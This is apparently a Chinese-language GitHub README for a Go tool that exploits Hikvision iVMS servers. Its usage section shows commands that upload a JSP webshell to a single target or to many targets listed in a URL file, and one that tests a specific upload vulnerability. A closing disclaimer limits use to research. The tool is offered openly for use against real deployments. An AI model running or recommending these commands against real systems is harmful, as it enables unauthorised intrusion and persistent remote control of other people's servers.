 # Hikvision_IVMS
本项目为海康威视IVMS 综合利用脚本，属于是初次学习Golang的练手小项目, 不喜误喷, 如果感觉用着可以不妨来个Start 这是我更新最大的动力
# 使用方法
单个目标
```
./Exploit -u http://x.x.x.x -v Hikvision -w webshell.jsp
```
多个目标
```
./Exploit -f url.txt -v Hikvision -w webshell.jsp

url.txt内容为
http://x.x.x.x
https://x.x.x.x
```
检测某一个漏洞
```
./Exploit -u http://x.x.x.x -v Hikvision_ivms_upload1 -w webshell.jsp
```

# 注 意
本仓库分享的安全工具，仅供安全研究与学习之用，如用于其他用途，由使用者承担全部法律及连带责任，与工具作者无关。
